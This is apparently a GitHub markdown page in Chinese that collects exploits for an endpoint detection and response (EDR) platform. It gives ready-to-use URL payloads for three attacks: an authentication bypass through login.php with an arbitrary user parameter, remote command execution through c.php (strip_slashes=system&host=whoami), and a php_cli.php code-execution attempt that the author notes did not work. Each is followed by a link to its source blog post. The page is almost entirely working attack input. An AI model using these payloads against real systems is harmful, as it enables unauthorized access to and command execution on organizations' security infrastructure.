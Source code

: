 # EDR终端检测响应平台漏洞合集
` @Time : 2020年8月21日, 0021 15:17`
` @Author  : 862897316@qq.com`
` @Software: PyCharm`

```
开始编写
```
###  免密码登陆 Payload
```angular2html
使用浏览器访问
https://ip:prot/ui/login.php?user=任意字符
```
[原文链接](https://blog.csdn.net/qq_32393893/article/details/108116171)

### 远程命令执行
```angular2html
使用浏览器访问
https://ip:prot/tool/log/c.php?strip_slashes=system&host=whoami

https://ip:prot/tool/log/c.php?strip_slashes=system&host=id&path=id&row=id&limit=id
```
[原文链接](https://blog.csdn.net/Alexhcf/article/details/108081912)

### 远程代码执行
```angular2html
https://ip:prot/tool/php_cli.php?code=phpinfo();
未复现成功
```
[原文链接](https://blog.riskivy.com/%e6%b7%b1%e4%bf%a1%e6%9c%8d%e7%bb%88%e7%ab%af%e6%a3%80%e6%b5%8b%e5%b9%b3%e5%8f%b0%ef%bc%88edr%ef%bc%89%e5%ad%98%e5%9c%a8%e8%bf%9c%e7%a8%8b%e5%91%bd%e4%bb%a4%e6%89%a7%e8%a1%8c%e6%bc%8f%e6%b4%9e/)




> 乾坤未定,你我皆是黑马